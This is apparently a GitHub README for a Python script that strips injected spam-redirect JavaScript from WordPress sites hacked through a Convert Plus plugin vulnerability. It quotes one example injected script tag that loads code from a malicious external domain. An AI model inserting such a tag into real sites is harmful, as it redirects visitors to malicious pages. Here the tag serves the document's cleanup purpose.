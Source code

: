 # Wordpress Spam Attack Removal Script

Written in Python and compatible with both **Python2** and **Python3**.

This script essentially removes spam attack injections from a given path. The convertplug plugin that comes with Avada and the vulnurability which has been found by Wordfence have caused numerous sites to be hacked and their pages now redirects to various malicious and spam pages. 
You can read the details from here

<https://www.wordfence.com/blog/2019/05/critical-vulnerability-patched-in-popular-convert-plus-plugin/>

## Considirations

This script utilizes **RAM** while reading files and does not **discriminate** file extensions and checks all files. This can be improved by various methods.

__PS : This script does replaces text that is inside the "database.json" does not locates or scans shells.__

### Scope

There are 4 specific JS injections that have been and the database.json contains only those records. In case you want to add further javascript/to be replaced you can use insert.py.

#### Example Injected Script

```html
<script type='text/javascript' async src='https://css.developmyredflag.top/sjquery.min.js?style=prime&'></script>
```

Various kinds of scripts exists like these and this tool/script automizes the removal process without breaking themes, plugins and sites as a whole. Instead of using backups for this using this script and scanning for shells through Wordfence can be an option.

## Example Usage

Script is written for Python 2.7 + and logs the altered files as well so you can use these logs to make sure they are clean for manual inspection.

Install the dependencies and devDependencies and start the server.

### Example Insert Operation

```sh
python insert.py "string_in_double_quotes"
```

```sh
python cleanup.py your_domain.com
```

or entering a whole path like

```sh
python cleanup.py /home/user/your_domain.com
```

### License

License can be found under LICENSE in this repository.
